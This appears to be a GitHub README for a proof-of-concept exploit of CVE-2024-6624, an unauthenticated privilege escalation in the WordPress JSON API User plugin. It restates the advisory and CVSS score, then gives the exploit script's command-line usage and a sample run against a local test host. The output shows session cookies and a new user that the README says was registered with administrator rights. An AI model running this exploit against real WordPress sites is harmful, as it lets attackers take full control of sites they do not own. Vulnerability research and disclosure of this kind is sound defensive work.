 # CVE-2024-6624
JSON API User &lt;= 3.9.3 - Unauthenticated Privilege Escalation

Description
---
The JSON API User plugin for WordPress is vulnerable to privilege escalation in all versions up to, and including, 3.9.3. This is due to improper controls on custom user meta fields. This makes it possible for unauthenticated attackers to register as administrators on the site. The plugin requires the JSON API plugin to also be installed.

```
State: PUBLISHED
Score: 9.8
CVSS: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
Privileges: None
Attack Vector: None
References:
 - https://plugins.trac.wordpress.org/browser/json-api-user/trunk/controllers/User.php#L51
 - https://plugins.trac.wordpress.org/changeset/3115185/
 - https://plugins.trac.wordpress.org/browser/json-api-user/trunk/controllers/User.php#L187
```

How to use
---

```
usage: CVE-2024-6624.py [-h] -u URL [-un USERNAME] [-p PASSWORD]

WordPress User Management Script

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     Website URL
  -un USERNAME, --username USERNAME
                        WordPress username
  -p PASSWORD, --password PASSWORD
                        WordPress password
```

POC
---

```
python3 CVE-2024-6624.py -u http://kubernetes.docker.internal -un test -p testest123
Registration Response:
{
    "status": "ok",
    "cookie": "test|1727176928|2KSZ0T0maNhdNfQwcwgqForXPZpfGXuC8XHaje57whM|e724bfd3ee1103a9ba8431cd357ca5cd5387f836f3cb3c761050bd4a0a0e7b56",
    "cookie_admin": "test|1727176928|tOXMV0zq3m368KcQzNaw5zbdGBoYYrrIByOAGWX6gdo|9b003b21babd93c4490fc6ace4b768c2201317957dd0f7c1766c142cfb5f2647",
    "cookie_name": "wordpress_logged_in_e2df32a6c3e7076dd7dc7d3f3fec39aa",
    "user_id": 41,
    "username": "test"
}
A new user with Administrator rights should of been now registered on http://kubernetes.docker.internal with the username test and password of testest123
```
